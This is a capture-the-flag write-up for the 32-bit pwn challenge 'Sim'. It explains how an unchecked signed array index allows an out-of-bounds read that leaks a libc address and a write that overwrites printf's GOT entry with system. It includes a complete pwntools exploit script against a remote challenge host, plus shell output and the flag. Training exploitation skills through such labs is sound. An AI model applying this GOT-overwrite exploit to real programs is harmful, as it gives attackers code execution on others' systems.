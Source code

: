 # Sim

**Description**:  
Welcome back `Agent 007`! As you can see, the simulator is running an arc right now. But the arc seems to be in a meltdown. Can you break its security with its own computational power and save it?

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
This seems to be the last challenge where Agent 007 will be back. 
You know the drill by now, `Checksec`:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

`Partial RELRO` opens up the possibility of GOT overwrite. 
For a change, this is also a 32 bit binary contrary to the 64 bit binaries that we encountered in the challenges thus far. So the addresses are going to be 4 bytes. 
`No PIE`, which means that the addess of the GOT table remains the same.

On running the binary, we can see that we have 3 options: ``add`, `show`, `break_armour``. All manipulates the reactor which is a global array declared as: `char *reactor[3][4]`. 


Now looking at the source code:

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```

`idx` is signed. Integer overflow is a possibility which allows negative indexing. Also, we can allocate/write anything at `reactor+idx`. This is particularly dangerous because we can modify the contents of the reactor array at any position specified by idx. If negative values are permitted, we could potentially overwrite critical areas of memory, such as the Global Offset Table (GOT), since both reactor and the GOT are stored in the BSS segment. By calculating the correct offset, we could overwrite a GOT entry with the address of the `libc system` function. This would allow us to hijack the program's execution flow and ultimately gain a shell.


```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
```

There is no check in `idx`. This can be exploited to print the data stored at `reactor+(-idx)` location. 

We can use the above to get more consistent `libc` leaks (addresses get randomized on each run due to ASLR). Then we can calculate the `system` address from the leaks. At last, we can overwrite GOT table entry of `printf` with the address (system) that we calculated. 


```C
	else if(choice == 3)
		{
		    printf(break_);
		}
```
*[In main]*
When the choice is 3, `printf(break_);` gets executed. So what if `break_` is `/bin/sh`? Viola! There pops the shell.

Note: Alternatively, you can also make use of the format string vulnerability in the `printf(break_)` to get the required leaks.

```python=
from pwn import *
#p = process("./sim")

p = remote('13.234.11.113',32651)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,b'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
print("System address:", hex(system))
add("268435449", p32(system))

#gdb.attach(p)

leave()
p.interactive()
```

On running the script:
```
[*] Switching to interactive mode
Choose your ACTION:
1. add
2. show
3. break armour
$ ls
Dockerfile  flag.txt  ld-2.27.so  libc-2.27.so    libc.so.6  sim    sim.py    ynetd
$ cat flag.txt
shaktiCTF{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}
$ exit
```
 
Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              
